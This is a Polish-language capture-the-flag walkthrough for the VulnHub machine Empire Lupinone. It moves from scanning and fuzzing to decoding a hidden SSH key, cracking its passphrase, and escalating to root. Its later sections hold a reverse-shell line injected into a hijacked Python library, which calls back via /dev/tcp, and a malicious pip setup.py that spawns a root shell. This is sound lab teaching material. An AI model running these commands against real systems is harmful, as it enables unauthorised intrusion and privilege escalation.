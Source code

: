 # **CTF - Empire Lupinone**

**Autor**: adi7312

**Poziom Trudności**: Średni

**Link do maszyny wirtualnej**: [Empire Breakout II](https://www.vulnhub.com/entry/empire-lupinone,750/).



- [**CTF - Empire Lupinone**](#ctf---empire-lupinone)
  - [**1. Skanowanie sieci**](#1-skanowanie-sieci)
  - [**2. Skanowanie usług hosta oraz skanowanie podatności**](#2-skanowanie-usług-hosta-oraz-skanowanie-podatności)
  - [**3. Detekcja podatności**](#3-detekcja-podatności)
  - [**4. Faza eksploitacji**](#4-faza-eksploitacji)
  - [**5. Eskalacja uprawnień (icex64 -\> arsene)**](#5-eskalacja-uprawnień-icex64---arsene)
  - [**6. Eskalacja uprawnień (arsene -\> root)**](#6-eskalacja-uprawnień-arsene---root)



## **1. Skanowanie sieci**


**Cel:** Detekcja adresu IP maszyny **Empire Lupinone**

Sprawdzamy adres naszej sieci oraz maskę poleceniem `ifconfig`. Nasz adres sieci to 192.168.138.0 a maska to 255.255.255.0. Dokonujemy teraz skanowania sieci w celu poznania adresu IP maszyny **Empire Lupinone**. Używamy polecenia:

    sudo netdiscover -r 192.168.138.0/24


![](p/1.png)


Adres IP podatnej maszyny to 192.168.138.131

## **2. Skanowanie usług hosta oraz skanowanie podatności**

**Cel:** Enumeracja wersji usług hosta, detekcja systemu operacyjnego oraz przeprowadzenie skanowania podatności.

W celu enumeracji usług hosta oraz detekcji OS wpisujemy polecenie:


    sudo nmap -sV -O 192.168.138.131


![](p/2.png)


Nmap wykrył dwie usługi: *ssh* oraz *http*, natomiast wykryty system operacyjny to *Linux 4.15-5.6*.

Dokonujemy teraz skanowania podatności, użyjemy do tego narzędzia *OpenVas*. Konfigurujemy nowy *target* i nowy *task*, i uruchamiamy *task*.


![](p/3.png)


Niestety OpenVas za wiele nie wykrył. Będziemy musieli więc pogrzebać trochę w tej maszynie.


## **3. Detekcja podatności**

Sama strona 192.168.138.131 pokazuje jedynie obrazek, potwierdza to jednak to że usługa Apache jest uruchumiona, możemy zatem dokonać enumeracji, w tym celu skorzystamy z narzędzia *gobuster*. Wpisujemy zatem polecenie:

    gobuster dir --url 192.168.138.131 -w /usr/share/wordlists/dirb/common.txt


![](p/4.png)

Przyjrzyjmy się bliżej plikowi robots.txt, w przeglądarce wpisujemy `192.168.138.131/robots.txt` - plik robots.txt wskazuje jakie strony nie powinny być pokazywane w np. wyszukiwarce. 


![](p/5.png)


Jak widzimy serwer nie pozwala na pokazywanie strony z zawartością katalogu *~myfiles*.

Jednak gdy przejdziemy do katalogu *~myfiles* wyskoczy nam błąd. W samym kodzie źródłowym strony możemy zobaczyć komentarz *You can do it, keep trying*.


![](p/6.png)


Jak możemy zauważyć *gobuster* nie znalazł wcześniej folderu ~myfiles, prawdopodobnie wynika to z tego, że słownik który zawierał powszechne sformułowania nie zawierał znaku *~*, być może jest więcej takich stron gdzie mamy tyldę na początku. Zatem skorzystamy teraz z techniki *fuzzing* oraz narzędzia DirBuster, konfiguracja programu znajduje się poniżej.


![](p/7.png)


Po uruchomieniu możemy zauważyć, że istnieje folder o nazwie *~secret*.


![](p/8.png)


Po wpisaniu adresu `192.168.138.131/~secret` ukazuje nam się taka strona.


![](p/9.png)


Zatem w tym folderze najprawdopodobniej znajduje się prywatny klucz SSH, ponowanie uruchamiamy DirBustera w celu znalezienia tego pliku, tym razem z poniższą konfiguracją:


![](p/10.png)


Po chwili otrzymujemy dosyć długi output, uwagę przykuwa plik *.mysecret.txt*


![](p/11.png)


Sama zawartośc tego pliku wygląda następująco:


![](p/12.png)


Nie jest to jednak sam klucz prywatny SSH gdyż brakuje pewnego charakterystycznego zakończenia, mamy więc pewnie tutaj do czynienia z jakimś kodowaniem. Cipher identifier wskazał że mamy tu do czynienia najprawodpodobniej z Base58. Skorzystamy z strony do dekodowania Base58.


![](p/13.png)


Otrzymaliśmy klucz prywatny SSH. Output zapiszemy sobie do pliku *sshkey*.

## **4. Faza eksploitacji**

Teraz będziemy korzystać z skryptu *ssh2john*, który zamieny nasz klucz prywatny na format czytelny dla narzedzia *John The Ripper*.

(**Ważne jest aby wykonać tę operację jako root oraz należy skorzystać z pythona wersji 2.7**)

    /usr/share/john/ssh2john.py sshkey > sshkey.john


Następnie użyjemy poniższego polecenia w celu pozyskania *passphrase*.


    john --wordlist=/usr/share/wordlists/fasttrack.txt sshkey.john


![](p/14.png)


Otrzymaliśmy *passphrase* (hasło), które teraz wykorzystamy logując się przez ssh do naszego serwera 192.168.138.131. W tym celu korzystamy z polecenia:

    ssh -i sshkey icex64@192.168.138.131

Wpisujemy zdobyty wcześniej *passphrase* i otrzymujemy dostęp do maszny Lupinone.


![](p/15.png)


Po wpisaniu polecenia `ls` widzimy plik user.txt który zawiera pierwszą flagę.


![](p/flag1.png)


## **5. Eskalacja uprawnień (icex64 -> arsene)**

Uruchamiamy polecenie `sudo -l` - polecenie to pozwala sprawdzić, jakie polecenia i komendy użytkownik może wykonać z uprawnieniami superużytkownika


![](p/16.png)


Jak widzimy użytkownik icex64 może uruchomić pewien skrypt jako superużytkownik, zatem będziemy używać tzw. ***Python Library Hijacking***. Sam skrpyt niestety nie jest kompletny. Poszukajmy zatem plików które mają pełne uprawnienienia. Korzystamy z polecenia:


    find / -type f -perm -ug=rwx 2>/dev/null


Pełne uprawnienia posiada skrypt *webbrowser.py*, który jest importowany w skrypcie heist.py, ta słabość pozwoli nam na dokonanie eskalacji uprawnień, skorzystamy zatem teraz z *revers shell*. Dokonujemy zatem modyfikacji *webbrowser.py*, wpisujemy polecenie:

    

     os.system(“/bin/bash -c `+'/bin/bash -i >& /dev/tcp/192.168.138.130/1234 0>&1'”)


W drugim terminalu uruchamiamy polecenie które będzie nasłuchiwało aktywność na porcie 1234:

    nc -lvp 1234


Następnie uruchamiamy skrypt *heist.py*:

    sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py


## **6. Eskalacja uprawnień (arsene -> root)**
W oknie gdzie nasłuchiwaliśmy port 1234 wywołała się powłoka bash hosta *LupinOne*, tym razem jesteśmy użytkownikiem *arsene*. Wpisujemy polecenie `sudo -l`, jak widać możemy jako superużytkownik (*root*) wykonać polecenie *pip*. 


![](p/17.png)


W celu dokonania eskalacji uprawnień musimy wykonać szereg poleceń:


    TF=$(mktemp -d)

    echo “import os; os.execl(‘/bin/sh’, ‘sh’, ‘-c’, ‘sh <$(tty) >$(tty) 2>$(tty)’)” > $TF/setup.py

    sudo pip install $TF


Ostatencznie otrzymujemy roota, możemy to potwierdzić wpisując `id`, następnie przechodzimy do */root* wpisujemy `ls` i otwieramy ostatnią flagę.


![](p/flag2.png)





